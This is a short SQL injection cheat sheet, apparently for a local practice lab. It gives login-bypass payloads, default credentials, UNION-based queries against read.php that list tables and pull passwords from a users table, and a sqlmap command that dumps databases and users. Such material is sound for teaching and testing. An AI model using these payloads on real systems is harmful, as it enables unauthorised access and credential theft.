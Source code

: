 # SQL Injection

[SQL Injection Cheat Sheet][4]

## Login
[Reference][1]

  * admin:password
  * user:123

```
anything' OR 'x'='x'
anything' OR 1='1
```

## Read
[Reference][3]

Test for injection
```
read.php?id=1 OR 1=1
```

Find the correct number of columns
```
read.php?id=1 ORDER BY 1....
```

Find table names
```
read.php?id=1 UNION SELECT TABLE_NAME,2 FROM information_schema.tables
```

Query the data
```
read.php?id=1 UNION SELECT id,password from users
```

### SqlMap
[Reference][2]
```
python sqlmap.py -u http://localhost:5100/sqli/read.php?id=1 -f --banner --dbs --users --dump
```

[1]: http://www.unixwiz.net/techtips/sql-injection.html
[2]: https://github.com/sqlmapproject/sqlmap/wiki/Usage
[3]: http://www.sqlinjection.net/union/
[4]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
